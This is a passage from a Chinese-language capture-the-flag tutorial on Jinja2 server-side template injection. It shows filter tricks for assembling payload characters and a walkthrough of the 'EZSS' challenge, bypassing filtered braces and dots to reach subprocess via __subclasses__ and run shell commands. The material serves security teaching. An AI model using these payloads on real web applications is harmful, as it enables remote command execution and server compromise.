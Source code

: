 ```python
#     True
#     >>> foo + 42
#     Traceback (most recent call last):
#       ...
#     jinja2.exceptions.UndefinedError: 'foo' is undefined
{% set num = (self|int) %}{{num}}
# 0
{% set num = (self|string|length) %}{{num}}
# 24
{% set point = self|float|string|min %}{{point}}
# .
```

通过以上几种Payload，返回的字符串中包含尖括号、字母、空格、下划线、数字、空格、百分号、点号。  
我们的目标就是使用这些返回的字符串，结合各种过滤器，拼接出最终的Payload。

# 实战例题

## [网络安全管理员职业技能大赛]EZSS

进入页面，发现提示please get pid，尝试GET传参，发现回显参数值到页面了。  
结合题目名称以及返回报文头的Server信息，初步判断是一道SSTI题目。

经过尝试，题目过滤了`{{}}`，使用`{%print %}`来绕过，说明存在SSTI漏洞。

```bash
?pid={%print 7*7%}
```

[![](https://img-blog.csdnimg.cn/92f24a618bbd43a7814dd4cadfb43d0d.png)](https://img-blog.csdnimg.cn/92f24a618bbd43a7814dd4cadfb43d0d.png)  
题目还过滤了`.`，使用多个参数传入`[request["args"]["a"]]`来绕过，因为题目的过滤规则只对pid参数生效，我们把关键通过别的参数传入，再将参数值进行拼接即可。

查看可用的类：

```bash
?pid={%print+()[request["args"]["a"]][request["args"]["b"]][0][request["args"]["c"]]()%}&a=__class__&b=__bases__&c=__subclasses__
```

[![](https://img-blog.csdnimg.cn/83cb66e3fc6b4650b7607a3d7f31e34a.png)](https://img-blog.csdnimg.cn/83cb66e3fc6b4650b7607a3d7f31e34a.png)

执行命令并读取flag即可：

```bash
{%print ()[request["args"]["a"]][request["args"]["b"]][0][request["args"]["c"]]()[146]('whoami',shell=True,stdout=-1)["stdout"]["readlines"]() %}&a=__class__&b=__bases__&c=__subclasses__&d=__init__&f=communicate
```

[![](https://img-blog.csdnimg.cn/cfb22eb2d2f544b1b0ad1775d0b432e1.png)](https://img-blog.csdnimg.cn/cfb22eb2d2f544b1b0ad1775d0b432e1.png)

## [Dest0g3 520迎新赛]EasySSTI
